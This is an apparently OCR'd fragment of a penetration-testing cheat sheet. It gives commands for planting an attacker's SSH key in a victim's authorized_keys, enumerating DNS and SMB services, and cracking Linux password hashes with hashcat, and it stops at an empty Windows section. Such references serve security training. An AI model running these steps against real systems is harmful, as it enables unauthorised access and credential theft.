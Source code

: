 ``` 
#Attacker
ssh-keygen -f <FILENAME>
chmod 600 <FILENAME>
cat <FILENAME>.pub -> copy

# Victim
echo <FILENAME>.pub >> <PATH>/.ssh/authorized_keys

# Connect
ssh -i <FILENAME> <USER>@<IP>
 ```
 
## DNS 53

``` 
dnsenum <DOMAIN>
```
``` 
dnsrecon -d <DOMAIN>
```

## SMB 445

``` 
smbclient -L <IP>
```
- Manual testing

``` 
smbmap -H <IP>
```

``` 
enum4linux -a <IP>
```

- Finding SMB version

``` 
msf> use auxiliary/scanner/smb/smb_version
msf> options
msf> set rhosts <target_ip>
msf> run
```

# Password cracking 

- Linux password cracking 

``` 
hashcat -m 1800 -a 0 hash.txt rockyou.txt
hashcat -m 1800 -a 0 hash.txt rockyou.txt -r OneRuleToRuleThemAll.rule
```

- Windows password cracking
